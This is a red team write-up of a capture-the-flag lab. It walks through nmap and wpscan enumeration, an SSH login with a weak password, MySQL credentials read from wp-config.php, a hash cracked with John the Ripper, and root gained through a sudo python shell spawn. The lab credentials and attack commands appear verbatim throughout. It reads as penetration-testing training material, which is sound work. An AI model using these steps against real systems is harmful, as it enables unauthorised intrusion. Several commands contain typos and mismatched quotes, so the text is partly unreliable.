 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Command: $ nmap -sV 192.168.1.110
  
 ![](images/NmapScan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open ssh
  - Port 80/tcp open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp Open netbios-ssn
  - Poert 445/tcp Open netbios-ssn
  

The following vulnerabilities were identified on each target:
- Target 1
  - List of Critical Vulnerabilities
Following user were identified by running wpscan command

Command: wpscan --url http://192.168.1.110/wordpress --enumerate u

Two users can be seen:

![](images/User.png)

With a simple brut force user Michael password was cracked: Password was "michael"

Command:ssh michael@192.168.1.110
password: michael
![](images/Michael-Password.png)

 `flag1.txt`: 
 
   -Flag 1 was found in the following director:
    Command: cd /var/www/html
           : ls -al
           : nano services.html
           
![](images/Flag.png)
![](images/Flag 2.png)

`flag2.txt`:

    -Flage 2 was found in following directories:
     Command: cd /var/www/
            : ls -al

![](images/flag2.png)


### Exploitation

Mysql server login credentials was listed in wp-config.php file from where steven password was cracked using john ripper and his account was used then to execute python to escalte root preveliage. Following steps were involved

Step 1:
-SSH into Michael account
command: ssh micheal@192.168.1.110

-Login credentials using MYSQL server, were found in wp-config.php file within var/www/html/wordpress directory.

-Flag 3 was found in the wp_posts table in the wordpress database.


Command: mysql -u root -p
password: R@v3nSecurity
  mysql> use wordpress;
        show table;
        SELECT * FROM wp_users;
        SELECT * FROM wp_posts;

![](images/WP-TABLE.png)
![](images/Flag3.png)


Step 2:
Password was cracke using john ripper uing following command
command: john wp_hashes.txt
user steven password is cracked: pink84

Step 3:
Once the password hash was cracked, then SSH into Steven to execute python to escalte root privilege
Command: ssh steven@192.168.1.110
password: pink84
        :sudo -l
        :sudo python -c 'import pty;pty.spawn ('/bin/bash");'
        :cd /root
        :ls -al
        :cat falg4.txt
        
![](images/flag4.png)



